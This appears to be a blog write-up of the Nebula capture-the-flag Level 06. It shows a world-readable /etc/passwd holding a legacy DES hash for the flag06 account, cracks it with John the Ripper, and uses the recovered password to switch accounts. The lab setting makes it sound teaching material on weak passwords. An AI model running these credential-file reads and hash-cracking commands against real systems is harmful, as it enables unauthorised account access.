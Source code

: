 ```yaml
---
layout: post
title: "Nebula Series - Level 06"
---
```


*Nebula is the first in a series of VMs from Exploit Exercises. It consists of 20 levels which range
in difficulty from simple to intermediate and cover topics like Linux privilege escalation and file
system race conditions.*

**Level 06** shows the dangers of a weak password

<!--more-->

Ok, so the first thing to understand is that back in the day, users' hashed passwords were stored in
`/etc/passwd`. This file was, and still is, world-readable -- meaning it's readable by all users.
That file also contains user IDs and group IDs which many utilities depend on, so locking it down
isn't an option. Initially this wasn't a cause for concern, but as processing power improved and disk
space became cheaper, dictionary attacks became feasible.

The solution to this was something knows as the Shadow Suite. The Shadow Suite solved the problem by
moving passwords into a separate file `/etc/shadow` which is only readable by `root`. In addition to
that change, the suite introduced a lot of nice features like password aging and expiration and
various utilities for managing users and groups.

The instructions for this level indicate that "The flag06 account credentials came from a legacy
unix system." That's a pretty big hint...

Let's take a look at the `/etc/password` file

```bash
level06@nebula:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:104::/var/run/dbus:/bin/false
nebula:x:1000:1000:nebula,,,:/home/nebula:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
level00:x:1001:1001::/home/level00:/bin/sh
flag00:x:999:999::/home/flag00:/bin/sh
level01:x:1002:1002::/home/level01:/bin/sh
flag01:x:998:998::/home/flag01:/bin/sh
level02:x:1003:1003::/home/level02:/bin/sh
flag02:x:997:997::/home/flag02:/bin/sh
level03:x:1004:1004::/home/level03:/bin/sh
flag03:x:996:996::/home/flag03:/bin/sh
level04:x:1005:1005::/home/level04:/bin/sh
flag04:x:995:995::/home/flag04:/bin/sh
level05:x:1006:1006::/home/level05:/bin/sh
flag05:x:994:994::/home/flag05:/bin/sh
level06:x:1007:1007::/home/level06:/bin/sh
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
level07:x:1008:1008::/home/level07:/bin/sh
flag07:x:992:992::/home/flag07:/bin/sh
level08:x:1009:1009::/home/level08:/bin/sh
flag08:x:991:991::/home/flag08:/bin/sh
level09:x:1010:1010::/home/level09:/bin/sh
flag09:x:990:990::/home/flag09:/bin/sh
level10:x:1011:1011::/home/level10:/bin/sh
flag10:x:989:989::/home/flag10:/bin/sh
level11:x:1012:1012::/home/level11:/bin/sh
flag11:x:988:988::/home/flag11:/bin/sh
level12:x:1013:1013::/home/level12:/bin/sh
flag12:x:987:987::/home/flag12:/bin/sh
level13:x:1014:1014::/home/level13:/bin/sh
flag13:x:986:986::/home/flag13:/bin/sh
level14:x:1015:1015::/home/level14:/bin/sh
flag14:x:985:985::/home/flag14:/bin/sh
level15:x:1016:1016::/home/level15:/bin/sh
flag15:x:984:984::/home/flag15:/bin/sh
level16:x:1017:1017::/home/level16:/bin/sh
flag16:x:983:983::/home/flag16:/bin/sh
level17:x:1018:1018::/home/level17:/bin/sh
flag17:x:982:982::/home/flag17:/bin/sh
level18:x:1019:1019::/home/level18:/bin/sh
flag18:x:981:981::/home/flag18:/bin/sh
level19:x:1020:1020::/home/level19:/bin/sh
flag19:x:980:980::/home/flag19:/bin/sh
```

We can see that unlike the other accounts, `flag06` has what looks like a password hash in the
second column.

```bash
level06@nebula:~$ cat /etc/passwd | grep flag06
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
```

Ok, so our path forward should be clear. We can break that hash with something like [John the
Ripper](https://www.openwall.com/john/). I happen to use homebrew so I'll install it with `brew
install john`.

We'll run john against that password file and then show the results.

```bash
level06@nebula:~$ john --single /etc/passwd
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 SSE2])
No password hashes left to crack (see FAQ)

level06@nebula:~$ john --show /etc/passwd
g06:hello:993:993::/home/flag06:/bin/sh

1 password hash cracked, 0 left
```

That took a fraction of a second. flag06's very strong password is apparently 'hello'.
Let's test out our newly cracked password and get the flag.

```bash
level06@nebula:~$ su flag06
Password: hello
sh-4.2$ whoami
flag06
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

There it is!

In Summary:

- /etc/passwd used to store hashed user passwords until dictionary attacks became feasible
- /etc/shadow stores them now and is only readable by root
- use a better password than 'hello'
